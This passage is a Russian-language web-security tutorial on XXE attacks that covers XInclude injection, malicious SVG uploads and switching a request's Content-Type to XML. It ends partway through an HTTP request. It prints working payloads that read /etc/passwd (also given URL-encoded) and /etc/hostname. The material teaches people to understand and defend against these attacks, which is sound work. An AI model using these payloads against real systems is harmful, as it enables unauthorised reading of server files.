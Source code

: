 В этой ситуации вы не можете осуществить классическую XXE-атаку, поскольку вы не контролируете весь XML-документ и поэтому не можете определить или изменить элемент `DOCTYPE`. Однако вместо этого вы можете использовать `XInclude`. `XInclude` - это часть спецификации XML, которая позволяет создавать XML-документ из поддокументов. Атаку `XInclude` можно поместить в любое значение данных в XML-документе, поэтому атака может быть выполнена в ситуациях, когда вы контролируете только один элемент данных, помещенный в XML-документ на стороне сервера.

Чтобы выполнить атаку XInclude, необходимо обратиться к пространству имен XInclude и указать путь к файлу, который вы хотите включить. Например:
`<foo xmlns:xi="http://www.w3.org/2001/XInclude">`
`<xi:include parse="text" href="file:///etc/passwd"/></foo>`

В запросе можно использовать кодирование URL:
`productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e`

### XXE-атаки через загрузку файлов
Некоторые приложения позволяют пользователям загружать файлы, которые затем обрабатываются на стороне сервера. Некоторые распространенные форматы файлов используют XML или содержат подкомпоненты XML. Примерами форматов на основе XML являются форматы офисных документов, например DOCX, и форматы изображений, например SVG.

Например, приложение может позволять пользователям загружать изображения и обрабатывать или проверять их на сервере после загрузки. Даже если приложение ожидает получить формат PNG или JPEG, используемая библиотека обработки изображений может поддерживать изображения SVG. Поскольку формат SVG использует XML, злоумышленник может отправить вредоносное изображение SVG и таким образом достичь скрытой поверхности атаки для уязвимостей XXE.

`<?xml version="1.0" standalone="yes"?>`
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>`
`<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">`
`<text font-size="38" x="0" y="38">&xxe;</text>`
`</svg>`

Обратите внимание, что первая строка файла чтения или результата выполнения появится внутри созданного изображения. Поэтому необходимо иметь доступ к изображению, которое создал SVG.

### XXE-атаки через измененный Content-Type
Большинство POST-запросов используют тип содержимого по умолчанию, который генерируется HTML-формами, например `application/x-www-form-urlencoded`. Некоторые веб-сайты ожидают получать запросы в этом формате, но допускают другие типы содержимого, включая XML.

Например, если обычный запрос содержит следующее:
`POST /action HTTP/1.0`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 7`

`foo=bar`

Тогда вы можете отправить следующий запрос с тем же результатом:
`POST /action HTTP/1.0`
`Content-Type: text/xml`
`Content-Length: 52`
